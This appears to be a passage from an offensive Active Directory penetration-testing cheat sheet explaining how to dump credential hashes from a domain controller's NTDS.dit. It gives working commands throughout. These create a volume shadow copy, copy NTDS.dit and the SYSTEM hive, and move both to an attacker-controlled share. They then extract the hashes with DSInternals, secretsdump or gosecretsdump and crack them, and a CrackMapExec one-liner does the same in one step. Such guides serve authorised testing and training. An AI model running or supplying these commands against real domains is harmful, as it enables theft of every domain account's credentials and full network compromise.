 - With access to a DC, to dump secrets from NTDS.dit, attacker should exfiltrate:
	- `C:\Windows\NTDS\NTDS.dit`
	- `HKEY_LOCAL_MACHINE\SYSTEM` registry hive, which is required to obtain the `Boot Key` for decrypting `ntds.dit`.
- Local admin or domain Admin privilege **required**
- We can't copy the ntds.dit directly as it's always being used by the domain controller, So we will create a shadow copy for the entire drive.

- Use vssadmin to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (VSS).
	``` Powershell
	*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
	```
- Copy `NTDS.dit` and `HKLM\SYSTEM` from the shadow volume.
	``` Powershell
	*Evil-WinRM* PS C:> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
	*Evil-WinRM* PS C:> cmd.exe /c reg SAVE HKLM\SYSTEM C:\temp\SYS
	```
- Transfer `NTDS.dit` and `HKLM\SYSTEM` to the attacker host, try [Transfer Files Technique](#transfer-files-technique).
	``` powershell
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\ntds.dit \\<IP>\CompData 
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\SYS \\<IP>\CompData
	```
- Extract hashes from `NTDS.dit` can be done with many ways:
	- Using [DSInternals](https://www.dsinternals.com/en/downloads/) PowerShell module which provides the `Get-BootKey` and `Get-ADDBAccount`.
		``` Powershell
		PS> $Key = Get-BootKey -SystemHiveFilePath 'Path to the /registry/SYSTEM hive'
		PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Out-File Hashdump.txt
		# To create a ready list for cracking
		PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Format-Custom -View HashcatNT
		# If clean state database error occurred, run the following command
		PS> ESENTUTL /p 'NTDS.dit' /!10240 /8 /o
		```
	- [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) or [gosecretsdump](https://github.com/c-sto/gosecretsdump).
		``` bash
		secretsdump -ntds ntds.dit.save -system SYS LOCAL
		gosecretsdump -ntds ntds.dit.save -system SYS
		```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> -u <UserName> -p <Password> --ntds`

---